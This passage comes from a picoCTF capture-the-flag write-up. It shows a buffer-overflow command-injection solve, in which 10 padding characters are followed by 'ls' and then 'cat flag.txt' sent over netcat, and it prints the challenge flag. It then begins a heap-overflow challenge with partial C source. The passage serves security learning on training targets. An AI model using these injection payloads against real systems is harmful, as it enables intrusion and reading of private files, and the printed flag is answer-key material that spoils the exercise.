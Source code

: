 ```
sh: 1: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: not found
[1]    756 segmentation fault (core dumped)  ./vuln
```
- I could see that after some `A`s, the program throwed two errors, first the usual `Segment Violation` and also `not found` which meant that some part of my input did get leaked as a system command.
- Again looking at the code, I looked at the sizes of the variables `c` and `buffer` which was `10`, so I created an injection of `10` random characters and inputted the system command I want to you, here being `ls`.
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/picoAF/inputink $ nc saffron-estate.picoctf.net 51977
What is your name?
1234567890ls
Goodbye, 1234567890ls!
flag.txt
```
- Hence, in the next iteration I used `cat flag` with the same injection and got the flag.
```zsh
sparsh@LAPTOP-F80QI4V2 ~/ctf/picoAF/inputink $  nc saffron-estate.picoctf.net 55705
What is your name?
1234567890cat flag.txt
Goodbye, 1234567890cat flag.txt!
picoCTF{0v3rfl0w_c0mm4nd_8499c65e}
```

## Flag:
```
picoCTF{0v3rfl0w_c0mm4nd_8499c65e}
```

## Notes and Concepts Learnt:
- Trial and error is okay, but I should try to read the code entirely and get the optimal solution before hand
# 2. heap 1
>Can you control your overflow? Download the binary here. Download the source here.
Additional details will be available after launching your challenge instance.
>(binex-medium)

Contents of `chall.c`
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define FLAGSIZE_MAX 64
// amount of memory allocated for input_data
#define INPUT_DATA_SIZE 5
// amount of memory allocated for safe_var
#define SAFE_VAR_SIZE 5

int num_allocs;
char *safe_var;
char *input_data;

void check_win() {
    if (!strcmp(safe_var, "pico")) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
```
